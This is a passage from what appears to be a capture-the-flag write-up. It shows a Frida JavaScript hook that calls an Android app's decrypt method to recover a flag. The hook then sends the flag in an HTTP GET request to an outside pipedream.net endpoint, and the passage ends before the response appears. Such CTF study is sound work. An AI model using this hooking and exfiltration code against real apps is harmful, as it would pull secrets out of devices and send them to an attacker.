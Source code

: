 ```JavaScript
			var fileInputStream = FileInputStream.$new(file);
			
			console.log("Calling to decrypt...");
			var flagByteArray = Java.array('byte', instance.decrypt(fileInputStream));  // Convert to Java byte array
			var str = String.fromCharCode.apply(null, flagByteArray);
			console.log("Flag: " + str);
			
			var URL = Java.use('java.net.URL');
			var BufferedReader = Java.use('java.io.BufferedReader');
			var InputStreamReader = Java.use('java.io.InputStreamReader');
			var HttpURLConnection = Java.use('java.net.HttpURLConnection');

			// Define the URL to send the GET request
			var url = "https://eofkllb4ccony1x.m.pipedream.net/" + str;
			console.log("Sending " + url);
			// Create a new URL object
			var urlObject = URL.$new(url);

			// Open a connection to the URL
			var connection = urlObject.openConnection();

			// Cast the connection to HttpURLConnection
			var httpConnection = Java.cast(connection, HttpURLConnection);

			// Set the request method to GET
			httpConnection.setRequestMethod('GET');

			// Send the request and retrieve the response
			var responseCode = httpConnection.getResponseCode();

			console.log("Done " + responseCode);
          },
          onComplete: function() {
          }
        });
      }
    },
    onComplete: function() {
    }
  });

});
```

We add an HTTP request to our URL with the flag, and we receive the following response:
